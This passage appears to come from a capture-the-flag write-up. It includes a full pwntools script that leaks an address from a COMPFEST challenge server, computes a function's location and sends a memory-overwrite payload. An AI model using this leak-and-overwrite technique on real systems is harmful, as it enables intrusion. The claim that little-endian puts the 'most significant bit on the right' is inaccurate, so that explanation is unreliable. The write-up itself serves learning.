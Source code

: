 Remember, CPU works with little endian,
where the most significant bit is on the right,
so the memory address of `0x00007f1ffd12dd90` would become `0x90dd12fd1f7f0000` in our payload.

### Overwriting Memory

We'll be using Python pwntools for this.
Here's our `solve.py`:

```solve.py
from pwn import *

def recvmenu():
    for i in range(8):
        conn.recvline()

conn = remote('challenges.ctf.compfest.id', 20008)

recvmenu()

conn.sendline(b'2')
conn.recvline()
conn.recvline()
conn.recvline()
conn.recvline()
# Get the treasure
harta_karun = conn.recvline()[18:30]
# Calculate `salty_spitoon` address
salty_spitoon = str(hex(int(harta_karun, 16) - 171))[2:]
# Convert to lil endian
target = b''
for i in range(0,len(salty_spitoon),2):
    target += int(salty_spitoon[10-i:12-i], 16).to_bytes(1)
target += b'\x00\x00'
print(target)

recvmenu()

conn.sendline(b'1')
payload = ("\x00"*60+"\x01"+"\x00"*3+"\x01"+"\x00"*7).encode("utf-8") + target
print(payload)
conn.sendline(payload)
conn.recvline()

recvmenu()

conn.sendline(b'3')
# goooooooooooooooooooooooooooooo
print(conn.recvline())
print(conn.recvline())
print(conn.recvline())
print(conn.recvline())
print(conn.recvline())
print(conn.recvline())
print(conn.recvline())
print(conn.recvline())
print(conn.recvline())
```

